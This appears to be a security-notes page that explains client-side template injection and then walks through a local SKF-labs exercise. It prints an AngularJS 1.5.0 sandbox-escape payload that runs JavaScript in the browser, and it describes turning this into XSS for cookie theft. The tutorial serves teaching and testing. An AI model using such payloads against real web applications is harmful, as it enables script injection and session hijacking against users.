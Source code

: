 **Client-Side Template Injection (CSTI)** is a security vulnerability in which an attacker can inject malicious code into a **client template**, which runs in the **user's browser** instead of the server.

Unlike [[Server-Side Template Injection (SSTI)]], where the server template runs on the server and is responsible for generating dynamic content, in CSTI, the client template runs in the user's browser and is used to generate dynamic content on the client side.

Attackers can exploit a CSTI vulnerability to inject malicious code into a client template, allowing them to execute commands in the user's browser and gain unauthorized access to the web application and sensitive data.

For example, imagine a web application uses client templates to generate dynamic content. An attacker could exploit a CSTI vulnerability to inject malicious code into the client template, allowing the attacker to execute commands in the user's browser and gain unauthorized access to the web application's sensitive data.

A common derivation of a Client-Side Template Injection (CSTI) attack is to exploit it to perform a [[Cross-Site Scripting (XSS)]] attack.

Once an attacker has injected malicious code into the client template, he can manipulate the data displayed to the user, allowing him to execute JavaScript code in the user's browser. Through this malicious code, the attacker can attempt to steal the user's session cookie, which would allow him to gain unauthorized access to the user's account and perform malicious actions on the user's behalf.

To prevent CSTI attacks, web application developers must properly validate and filter user input and use secure tools and template frameworks that implement security measures to prevent malicious code injection.

# Example

We need to clone the following repository from Github: [xkf-labs](https://github.com/blabla1337/skf-labs). Once downloaded, we proceed to go to the path *CSTI/python/CSTI* and install the requirements, and then run the script:

```
pip2 install -r requirements

python2 CSTI.py
```

We go to *localhost:5000*, see that we have an input to enter data and look at the source code of the page to see what technologies it is using. In this case it is using *AngularJS 1.5.0* so we can get in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) a payload to try to take advantage of this input.

For this version of *AngularJS* we found this payload. We should test it to see if it shows us an alert in the browser:

```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

As we see that it works we could try to show another type of text in the alert:

----
> Be careful about escaping quotation marks and special characters.
----

```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(\"Test message!\")))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

As we can see we are able to introduce **JavaScript** code, so we could derive the attack to a [[Cross-Site Scripting (XSS)]].

**CSTI** tries to attack the user's browser, either to obtain a session cookie or anything else we control through a local *.js* file (**XSS**) and **SSTI** attacks the server in order to breach it, gain access or read files.